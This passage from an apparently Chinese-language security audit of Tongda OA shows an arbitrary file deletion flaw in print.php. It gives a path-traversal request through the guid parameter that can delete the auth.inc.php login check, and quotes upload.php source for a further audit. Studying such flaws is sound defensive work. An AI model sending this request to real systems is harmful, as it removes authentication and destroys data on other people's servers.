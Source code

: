 ```php
```



这里可以看到 页面获取 guid参数的值
使用**file_exists函数**判断文件是否存在 并未进行校验 就执行unlink删除文件

可以本地在 **\webroot\inc** 目录创建 1.txt 文件

然后访问

```
/module/appbuilder/assets/print.php?guid=../../../webroot/inc/1.txt
```

就会删除这个 1.txt 文件，也代表可以删除 **auth.inc.php** 登录检验文件

回到 upload.php 文件进行代码审计

![img](../../../.vuepress/public/img/tongdaoa-21.png)



判断变量 **$action** 是否为 upload，再判断文件类型，如果不为 xls 和 img 则进入else分支



```php
else {
		$uploaddir = MYOA_ATTACH_PATH . "/data_center/attachment/";

		if (!is_dir(MYOA_ATTACH_PATH . "/data_center/attachment")) {
			if (!is_dir(MYOA_ATTACH_PATH . "/data_center")) {
				mkdir(MYOA_ATTACH_PATH . "/data_center");
			}

			mkdir(MYOA_ATTACH_PATH . "/data_center/attachment");
		}

		if (isset($from_rep)) {
			if (($from_rep != "") && ($from_rep[0] == "{")) {
				$repkid = GetRepKIDBySendId($from_rep);

				if ($repkid != $to_rep) {
					if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
						copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
					}
				}
			}
			else {
				$arr = explode(",", $from_rep);

				for ($i = 0; $i < count($arr); $i++) {
					$p = strpos($arr[$i], ".");
					$repno = substr($arr[$i], 0, $p);
					$repkid = GetRepKIDByNo($repno);

					if ($repkid != $to_rep) {
						if (file_exists($uploaddir . "/" . $repkid . "_" . $filename)) {
							copy($uploaddir . "/" . $repkid . "_" . $filename, $uploaddir . "/" . $to_rep . "_" . $filename);
							break;
						}
					}
				}
			}
		}
		else {
			$s_n = $_FILES["FILE1"]["name"];
```